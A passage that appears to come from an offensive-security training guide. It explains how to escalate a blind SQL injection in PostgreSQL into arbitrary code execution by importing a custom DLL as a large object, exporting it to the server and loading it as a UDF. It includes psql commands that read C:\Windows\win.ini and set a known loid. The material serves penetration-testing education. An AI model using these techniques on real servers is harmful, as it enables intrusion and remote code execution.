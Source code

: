 1. Create a large object that will hold our binary payload (our custom DLL file we created in the previous section)
2. Export that large object to the remote server file system
3. Create a UDF that will use the exported DLL as source
4. Trigger the UDF and execute arbitrary code

Before we can do this however, we need to familiarize ourselves with the mechanics of working with large objects in PostgreSQL.

In a normal course of action, a large object is created by calling the _lo_import_ function while providing it the path to the file we want to import.

```
amdb=# select lo_import('C:\\Windows\\win.ini');
 lo_import
-----------
    194206
(1 row)

amdb=# \lo_list
          Large objects
   ID   |  Owner   | Description
--------+----------+-------------
 194206 | postgres |
(1 row)
```

> Listing 53 - A simple lo_import example

In the listing above, we are importing the win.ini file into the database and as the return value, we are provided with the _loid_ of the large object that was created.

The _loid_ value is an integral value to our entire plan as we need to reference it when we are exporting large objects. As we can see in Listing 53, the returned _loid_ value appears arbitrary though. Considering we would not be able to see the returned value from the previous query when we execute it in a blind SQL injection, this is a bit of a problem. (_Notice that when the use of UNION queries is possible, this is not a problem._)

Fortunately, the _lo_import_ function also allows us to set the _loid_ field to any arbitrary value of our choice while creating a large object. This will help us solve the _loid_ value problem.

```
amdb=# select lo_import('C:\\Windows\\win.ini', 1337);
 lo_import
-----------
      1337
(1 row)
```

> Listing 54 - A lo_import with a known loid

With that in mind, to accomplish our goal, we can create a large object from an arbitrary file on the remote system and then directly update its entry in the database with the content of our choice. To do so, first we need to know where these large objects are stored in the database. With that said, the large objects are stored in a table called _pg_largeobject_.

```
amdb=# select loid, pageno from pg_largeobject;
 loid | pageno
------+--------
 1337 |      0
(1 row)
```
